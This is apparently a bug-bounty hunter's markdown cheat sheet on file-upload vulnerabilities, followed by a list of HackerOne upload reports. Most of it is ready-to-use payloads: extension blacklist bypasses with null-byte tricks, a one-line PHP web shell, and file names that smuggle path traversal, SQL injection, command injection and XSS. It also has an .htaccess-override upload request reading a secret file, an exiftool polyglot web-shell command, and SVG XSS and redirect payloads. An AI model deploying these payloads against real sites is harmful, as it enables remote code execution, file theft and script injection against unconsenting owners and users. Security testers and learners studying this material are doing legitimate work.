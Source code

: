 ```yaml
---
tags:
  - web_hunting
  - web-app-security
  - logic-bugs
---
```

>**File extension**

    # extension blacklisted:
    PHP: .phtm, phtml, .phps, .pht, .php2, .php3, .php4, .php5, .shtml, .phar, .pgif, .inc
    ASP: .asp, .aspx, .cer, .asa
    Jsp: .jsp, .jspx, .jsw, .jsv, .jspf
    Coldfusion: .cfm, .cfml, .cfc, .dbm
    Using random capitalization: .pHp, .pHP5, .PhAr
    pht,phpt,phtml,php3,php4,php5,php6,php7,phar,pgif,phtm,phps,shtml,phar,pgif,inc
    # extension whitelisted:
    file.jpg.php
    file.php.jpg
    file.php.blah123jpg
    file.php%00.jpg
    file.php\\x00.jpg
    file.php%00
    file.php%20
    file.php%0d%0a.jpg
    file.php.....
    file.php/
    file.php.\\
    file.
    .html
- [ ] Upload `asp` file using `.cer` & `.asa` extension (IIS — Windows)
- [ ] Upload `.eml` file when `content-type = text/HTML`
- [ ] 


> **Content type**
  
	- Preserve name, but change content-type
    Content-Type: image/jpeg, image/gif, image/png

> **Content length**

	# Small bad code:
    <?='$_GET[x]'?>    

> **Impact by extension**

```go
asp, aspx, php5, php, php3: -->  webshell, rce
svg:                        --> stored xss, ssrf, xxe
gif:                        --> stored xss, ssrf
csv:                        --> csv injection
xml:                        --> xxe 
avi:                        --> lfi, ssrf
html, js:                   --> html injection, xss, open redirect
png, jpeg:                  --> pixel flood attack dos
zip:                        --> rce via lfi, dos
pdf, pptx:                  --> ssrf, blind xxe
```

>**File name**

 - [ ] Path traversal
	`../../etc/passwd/logo.png`
	`../../../logo.png`
- [ ] SQLi
	`'sleep(10).jpg`
	`sleep(10)-- -.jpg`
- [ ] Command injection
	`; sleep 10;`
- [ ] XSS 
	`<svg onload=alert(document.comain)>.svg`

>**Other Test Cases**

- [ ] Image-Tragic
	SVG images are just XML data. Using XML you can achieve lots of vulnerabilities, for instance Image Magic which is an image processing library is vulnerable to SSRF and RCE vulnerabilities.
	
	Source (Facebook RCE): [Facebook's ImageTragick Remote Code Execution (4lemon.ru)](http://4lemon.ru/2017-01-17_facebook_imagetragick_remote_code_execution.html)    
    
- [ ] **[Web shell upload via extension blacklist bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass) [Overriding the server configuration]**
    
    ```php
    ------WebKitFormBoundary0G2tBRqMoRVtGqfG
    Content-Disposition: form-data; name="avatar"; filename=".htaccess"
    Content-Type: text/plain
    
    AddType application/x-httpd-php .l33t
    ------------------------------------------
    then 
    ------WebKitFormBoundary0G2tBRqMoRVtGqfG
    Content-Disposition: form-data; name="avatar"; filename="exploit.l33t"
    Content-Type: application/octet-stream
    
    <?php echo file_get_contents('/home/carlos/secret'); ?>
    ------WebKitFormBoundary0G2tBRqMoRVtGqfG
    ```
        
- [ ] **[Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)**
    
    ```php
    exiftool.exe -Comment="<?php echo 'START ' . 'Hacked By h0tak88r :)' . ' END'; ?>" download.png -o polyglot.php
    ```
- [ ] EXIF-DATA not Stripped
	1. Got to Github ( https://github.com/ianare/exif-samples/tree/master/jpg) <br>
	2. There are lot of images having resolutions (i.e 1280 * 720 ) , and also whith different MB’s . <br>
	3. Go to Upload option on the website <br>
	4. Upload the image<br>
	5. see the path of uploaded image ( Either by right click on image then copy image address OR right click, inspect the image, the URL will come in the inspect ,   edit it as html )
	6. open it (http://exif.regex.info/exif.cgi)
	7. See whether is that still showing exif data , if it is then Report it.
	**Reports (Hackerone)**
	- [IDOR with Geolocation data not stripped from images](https://hackerone.com/reports/906907)


> **File Upload Exploitation**

- **SVG file To XSS**

	```jsx
		<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
		<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
		<script type="text/javascript">
		alert("h0tak88r XSS");
		</script>
		</svg>
    ```
        
- **Open Redirect when uploading svg files**
        
	```xml
        <code>
        <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
        <svg
        onload="window.location='<http://www.google.com>'"
        xmlns="<http://www.w3.org/2000/svg>">
        </svg>
        </code>
        
	```

# Top Upload reports from HackerOne:

1. [Remote Code Execution on www.semrush.com/my_reports on Logo upload](https://hackerone.com/reports/403417) to Semrush - 792 upvotes, $0
2. [Webshell via File Upload on ecjobs.starbucks.com.cn](https://hackerone.com/reports/506646) to Starbucks - 673 upvotes, $0
3. [Blind XSS on image upload](https://hackerone.com/reports/1010466) to CS Money - 412 upvotes, $1000
4. [Unrestricted file upload on [ambassador.mail.ru] ](https://hackerone.com/reports/854032) to Mail.ru - 404 upvotes, $3000
5. [[ RCE ] Through stopping the redirect in /admin/* the attacker able to bypass Authentication And Upload Malicious File](https://hackerone.com/reports/683957) to Mail.ru - 340 upvotes, $0
6. [Unrestricted file upload leads to Stored XSS](https://hackerone.com/reports/808862) to Visma Public - 268 upvotes, $250
7. [SSRF  leaking internal google cloud data through upload function [SSH Keys, etc..]](https://hackerone.com/reports/549882) to Vimeo - 249 upvotes, $0
8. [Arbitrary File Upload to Stored XSS](https://hackerone.com/reports/808821) to Visma Public - 245 upvotes, $250
9. [Unrestricted File Upload Leads to RCE on mobile.starbucks.com.sg](https://hackerone.com/reports/1027822) to Starbucks - 225 upvotes, $0
10. [Admin Management - Login Using Default Password - Leads to Image Upload Backdoor/Shell](https://hackerone.com/reports/699030) to Razer - 199 upvotes, $200
11. [External SSRF and Local File Read via video upload due to vulnerable FFmpeg HLS processing](https://hackerone.com/reports/1062888) to TikTok - 139 upvotes, $2727
12. [Unrestricted file upload in www.semrush.com \> /my_reports/api/v1/upload/image](https://hackerone.com/reports/748903) to Semrush - 124 upvotes, $0
13. [User can upload files even after closing his account](https://hackerone.com/reports/1020371) to Basecamp - 114 upvotes, $0
14. [XXE Injection through SVG image upload leads to SSRF](https://hackerone.com/reports/897244) to Zivver - 112 upvotes, $0
15. [Insecure file upload in xiaoai.mi.com Lead to Stored  XSS](https://hackerone.com/reports/882733) to Xiaomi - 107 upvotes, $0
16. [Unrestricted File Upload on https://partner.tiktokshop.com/wsos_v2/oec_partner/upload](https://hackerone.com/reports/1890284) to TikTok - 98 upvotes, $0
17. [[insideok.ru] Remote Command Execution via file upload.](https://hackerone.com/reports/666716) to ok.ru - 94 upvotes, $0
18. [Avatar upload allows arbitrary file overwriting](https://hackerone.com/reports/671605) to Mail.ru - 88 upvotes, $750
19. [Unrestricted file upload leads to Stored XSS](https://hackerone.com/reports/880099) to GitLab - 82 upvotes, $0
20. [Unauthenticated user can upload an attachment to the last updated report draft](https://hackerone.com/reports/419896) to HackerOne - 80 upvotes, $0
21. [XSS from arbitrary attachment upload.](https://hackerone.com/reports/831703) to Qulture.Rocks - 74 upvotes, $0
22. [Open s3 bucket allows for public upload](https://hackerone.com/reports/504600) to Augur - 73 upvotes, $100
23. [SSRF and local file disclosure by video upload on https://www.redtube.com/upload](https://hackerone.com/reports/570537) to Pornhub - 61 upvotes, $500
24. [Cross site scripting via file upload in subdomain ads.tiktok.com](https://hackerone.com/reports/1433125) to TikTok - 59 upvotes, $500
25. [Unrestricted file upload when creating quotes allows for Stored XSS](https://hackerone.com/reports/788397) to Visma Public - 57 upvotes, $250
26. [Singapore - Unrestricted File Upload Leads to XSS on campaign.starbucks.com.sg/api/upload](https://hackerone.com/reports/883151) to Starbucks - 57 upvotes, $0
27. [Stored XSS on upload files leads to steal cookie](https://hackerone.com/reports/765679) to Palo Alto Software - 56 upvotes, $0
28. [SSRF and local file disclosure by video upload on https://www.tube8.com/](https://hackerone.com/reports/574133) to Pornhub - 53 upvotes, $500
29. [Unrestricted File Upload Results in Cross-Site Scripting Attacks](https://hackerone.com/reports/1005355) to Uber - 53 upvotes, $0
30. [SSRF in VCARD photo upload functionality](https://hackerone.com/reports/296045) to Open-Xchange - 49 upvotes, $850